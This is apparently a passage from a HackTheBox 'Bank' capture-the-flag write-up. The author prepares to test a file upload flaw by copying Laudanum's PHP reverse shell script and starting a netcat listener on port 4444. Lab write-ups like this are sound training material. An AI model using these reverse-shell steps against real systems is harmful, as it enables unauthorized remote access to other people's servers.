 Will test and see if there is a upload vulnerability exists or not.
┌──(root㉿kali)-[~/htb/bank]
└─# cp /usr/share/laudanum/php/php-reverse-shell.php .     

will change the ip and port 

And will also set a net-cat listener
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444                    
listening on [any] 4444 ...

![[Pasted image 20230819105239.png]]

